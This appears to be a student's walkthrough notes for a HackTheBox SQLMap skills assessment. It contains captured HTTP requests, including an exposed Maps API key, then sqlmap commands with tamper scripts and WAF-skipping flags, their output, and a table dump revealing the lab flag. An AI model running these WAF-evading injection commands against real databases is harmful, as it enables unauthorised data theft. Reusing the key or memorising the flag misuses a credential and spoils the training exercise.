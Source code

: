 # SQLMAP ESSENTIALS Skills Assessment


94.237.56.188:44941

GET /maps/api/js?key=AIzaSyBVWaKrjvy3MaE7SQ74_uJiULgl1JY0H2s&sensor=false HTTP/1.1
Host: maps.googleapis.com
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: http://94.237.56.188:44941/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close


GET /css?family=Open+Sans:300,400,600,700,800 HTTP/1.1
Host: fonts.googleapis.com
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: text/css,*/*;q=0.1
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: style
Referer: http://94.237.56.188:44941/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

GET /maps/api/mapsjs/gen_204?csp_test=true HTTP/2
Host: maps.googleapis.com
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Origin: http://94.237.56.188:44941
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://94.237.56.188:44941/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

GET /blog.html? HTTP/1.1
Host: 94.237.56.188:44941
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.56.188:44941/blog.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

POST /action.php HTTP/1.1
Host: 94.237.56.188:52779
Content-Length: 8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://94.237.56.188:52779
Referer: http://94.237.56.188:52779/shop.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"id":1}

vi req.txt

sqlmap -r req.txt --banner --current-user --current-db --is-dba

[11:23:43] [INFO] testing if current user is DBA
[11:23:43] [INFO] fetching current user
[11:23:43] [INFO] retrieved: 
[11:23:43] [INFO] fetched data logged to text files under '/home/htb-ac-786011/.local/share/sqlmap/output/94.237.56.188'

sqlmap -r req.txt --tamper=between --is-dba

[11:25:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
a
[11:26:06] [INFO] adjusting time delay to 1 second due to good response times
dmin@localhost
current user is DBA: False

sqlmap -r req.txt --tamper=between --skip-waf --banner --current-user --current-db --is-dba

[11:28:08] [INFO] adjusting time delay to 1 second due to good response times
0.3.23-MariaDB-0+deb10u1
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
banner: '10.3.23-MariaDB-0+deb10u1'
[11:29:24] [INFO] fetching current user
[11:29:24] [INFO] resumed: admin@localhost
current user: 'admin@localhost'
[11:29:24] [INFO] fetching current database
[11:29:24] [INFO] retrieved: production
current database: 'production'
[11:30:00] [INFO] testing if current user is DBA
[11:30:00] [INFO] fetching current user
current user is DBA: False
[11:30:00] [INFO] fetched data logged to text files under '/home/htb-ac-786011/.local/share/sqlmap/output/94.237.56.188'
[11:30:00] [WARNING] your sqlmap version is outdated

[*] ending @ 11:30:00 /2023-12-27/

sqlmap -r req.txt --tamper=between --skip-waf --dump -T final_flag -D production

Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
